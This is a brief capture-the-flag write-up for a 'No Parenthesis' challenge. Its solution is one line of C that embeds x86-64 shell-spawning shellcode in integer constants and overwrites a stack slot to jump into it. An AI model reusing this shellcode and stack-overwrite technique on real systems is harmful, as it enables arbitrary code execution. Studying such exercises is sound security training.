 # No Parenthesis

Solved by **XXX**

## Question
No parenthesis and all warnings treated as errors? Surely you can't write unsafe code to steal my flag....


## Solution
```
typedef unsigned long long size_t; void *voidptr; size_t*  tmp1; size_t** tmp2; size_t** stack; unsigned char* sc_start; size_t rop[6]; rop[0] = 0x06eb905299583b6a; rop[1] = 0x06eb9068732f6ebb; rop[2] = 0x06eb909020e3c148; rop[3] = 0x06eb9069622f2fbf; rop[4] = 0x06eb5f5453fb3148; rop[5] = 0x06eb050f5e545752; voidptr = &main; sc_start = voidptr; sc_start += 6;  voidptr = sc_start; tmp1 = voidptr; tmp2 = &tmp1; voidptr = &rop; stack = voidptr; stack[13] = *tmp2; return rop[0];
```

### Flag
[![bbcbc5a4-51f0-4089-9f5b-ee57f4b25c18.jpg](https://i.postimg.cc/RCYhtZ1X/bbcbc5a4-51f0-4089-9f5b-ee57f4b25c18.jpg)](https://postimg.cc/V5jzQ1VC)
